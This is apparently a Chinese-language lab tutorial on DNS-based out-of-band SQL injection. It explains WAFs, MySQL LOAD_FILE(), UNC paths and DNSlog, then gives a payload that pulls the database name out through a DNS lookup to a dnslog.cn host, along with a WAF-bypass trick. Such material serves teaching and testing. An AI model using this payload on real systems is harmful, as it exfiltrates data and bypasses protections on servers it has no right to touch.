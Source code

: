 # Chapter 5.3 - DNS注入

[TOC]

----

## 0x00 原理与释义

### WAF

> Web 应用防护系统（也称为：网站应用级入侵防御系统。英文：Web Application Firewall，简称： WAF。Web 应用防火墙是通过执行一系列针对 HTTP/HTTPS 的安全策略来专门为 Web 应用提供保护的一款产品。主要用于预防SQL 注入、网页篡改、网页挂马等安全事件。

WAF部署在网页服务器的应用层，有很多种对入侵的检测技术。最常用的两种方式是**代理服务**和**特征识别**。我们在渗透测试的过程中经常说的**"过狗"**主要是实现通过特绕过特征识别进行注入，在此主要有两个概念：

#### 黑名单

黑名单指定不能通过的访问，除了黑名单外的访问均不会被拦截。

#### 白名单

白名单指定仅限通过的访问，除了白名单外的访问均会被拦截。


黑名单的缺点是对于名单以外的访问内容限制力低。白名单的优点和缺点都是对于名单外的访问内容限制高，前者体现在能够拦截大多数黑名单未及时跟进的非法访问，后者体现在用户打扰率和误判率较高。

----

### LOAD_FILE()函数

----

#### 函数功能

Load_file()函数的功能是**读取文件**并**返回文件内容**为字符串。

要使用此函数，文件必须位于服务器主机上，必须指定**完整路径**的文件，而且必须有FILE**权限**。 

----

### SMB协议与UNC路径

----

#### SMB

> SMB(全称是Server Message Block)是一个协议名，它能被用于Web连接和客户端与服务器之间的信息沟通。

SMB协议使网络共享存在一定漏洞，具体表现为允许攻击者在目标服务器和终端用户计算机上远程执行代码，影响在本地和互联网上共享的文件、设备和其它资源。

#### UNC

> 通用命名约定或统一命名约定的简称，指定了一种通用语法来描述网络资源（如共享文件，目录或打印机）的位置。

Windows系统的UNC语法具有通用形式：
```
\\\ 计算机名（网络位置）\ 共享文件夹 \ 资源
```

在我们日常使用中，`\\`用于指定网络路径，访问网络资源。

----

### DNS、DNSlog与DNS注入

---

#### DNS

> 域名系统（英文：Domain Name System，缩写：DNS）是互联网的一项服务。它作为将域名和IP地址相互映射的一个分布式数据库，能够使人更方便地访问互联网。

DNS的作用是将网站域名与IP对应起来，使用户能通过输入域名后通过DNS解析访问到某IP的页面。

---

#### DNSlog

DNSLog 是一款监控 DNS 解析记录和 HTTP 访问记录的工具，能为无回显盲注和绕过WAF提供帮助。

由于 WEB 服务器可以通过 SMB 提供的 UNC 路径解析来选择 DNS 服务器进行解析，使得DNSlog成为**DNS代理和记录**成为可能。

> 当主机所询问的本地域名服务器不知道被查询的域名的IP地址，那么**本地域名服务器**就以**DNS客户的身份**，向其它根域名服务器继续发出查询请求报文(即替主机继续查询)，而不是让主机自己进行下一步查询。

综上所述，在发出域名解析请求时，本地域名服务器在无法获得IP的情况只会向指定提供的根域名服务器继续提交域名解析请求，那么只需要将需要注入的站点的本地域名服务器指向DNSlog代理服务器，本地服务器在无法解析的情况下必然**携带需要解析的信息到达DNSlog代理服务器**，而此工具会为我们**保留DNS解析记录**，这就帮助我们实现了DNS注入。

----

#### DNS注入

通过构造的完成的数据(SQLi+UNC路径+根域名服务器地址)访问搭建好的DNSlog服务器，此后查看DNSlog的日志即可获取我们想要得到的数据。此过程中本地DNS作为DNS客户的身份带出数据库数据，在页面无回显时很大程度上提高了盲注的效率。

---



## 0x01 注入思路

1. `用户`：绕过WAF将包含SQLi和指向DNSlog的DNC路径的组合信息发送给WEB服务器
2. `WEB服务器`：接受后传入数据库处理
3. `数据库`：**携带查询结果**访问本地DNS
4. `本地DNS服务器`：无法解析，作为DNS客户请求传送给DNSlog根域名解析服务器
5. `DNSlog`：**记录解析**请求，返回解析失败信息或WEB本地IP
6. `用户`：通过DNSlog记录分离出所需的**查询结果**

## 0x02 注入过程

1. **通过伪造的文件地址绕过WAF**

    根据apache解析特性，遇到了不认识或是不存在的内容就会顺次解析，根据网站设置而异，会规定是否允许依照这个解析模式，我们可以依靠这个绕过WAF

	![](https://nc0.cdn.zkaq.cn/md/5371/0a3b050b45d3972975dafd9338e9404b_22544.png)
	![](https://nc0.cdn.zkaq.cn/md/5371/8b1c8b791125cc75c14ab25487f4bd79_12082.png)
2. **建立带SQLi和VNC路径、DNSlog的查询语句**

   1. 拼合VNC路径标识+SQLi子查询+DNSlog，查询库名:

      ```mysql
      CONCAT('//',(SELECT database()),'.xxx.dnslog.cn/xxx')
      ```

   2. 送入`LOAD_FILE()`函数

      ```php
      and (SELECT LOAD_FILE(CONCAT('//',(SELECT database()),'.xxx.dnslog.cn/xxx')))
      ```
	    ![](https://nc0.cdn.zkaq.cn/md/5371/af0f48af0e9420d3c4eda1ef971d15bb_76272.png)

3. **查询DNSlog结果**

	![](https://nc0.cdn.zkaq.cn/md/5371/85842308f3d8b456f0d3622e8755ec0d_16316.png)

4. **不断改变SQLi语句，进一步获取表名及字段名**

   - 表名
   	![](https://nc0.cdn.zkaq.cn/md/5371/e2872e158e6388f28a9f06b831e5e87d_99251.png)
	![](https://nc0.cdn.zkaq.cn/md/5371/f8dc881a60912474b7984dc7ad0bb95b_91716.png)
   - 字段名
   	![](https://nc0.cdn.zkaq.cn/md/5371/88042098e4f90e77dbc8ed29c5a7815f_66048.png)

5. **得到flag**

	![](https://nc0.cdn.zkaq.cn/md/5371/51ad1b001eab3fccf51afce757bbd485_22709.png)
	![](https://nc0.cdn.zkaq.cn/md/5371/9a62504e2a0c0a95d737510c67a1ca21_81429.png)

## 0x03 思考与要点

1. UNC路径在实际操作中可以表现为`//`或`\\\\` ,反斜线需要四条是因为涉及到URL里的`\`同时具有转义符号的用途。
2. LOAD_FILE()函数使用之前需要MYSQL高版本数据库中带有**secure_file_priv**设置项才能实现通过数据库读取和写入数据。
3. 通常WEB服务器可处理的整个域名内的节点标签被限制在**63**个字符长度大小。
4. 由于UNC路径规定了**主机地址**和**访问资源**的参数，所以在使用DNS注入时必须加上访问的资源地址（可伪造）。

---

> 引用部分自百度百科



